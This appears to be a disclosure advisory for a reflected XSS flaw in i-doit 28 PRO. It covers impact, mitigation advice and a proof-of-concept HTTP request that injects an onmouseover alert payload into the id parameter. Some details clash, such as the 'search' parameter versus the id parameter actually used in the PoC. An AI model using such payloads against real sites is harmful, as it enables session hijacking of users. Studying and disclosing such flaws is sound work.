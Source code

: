 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | search (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /search route | /search |

- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

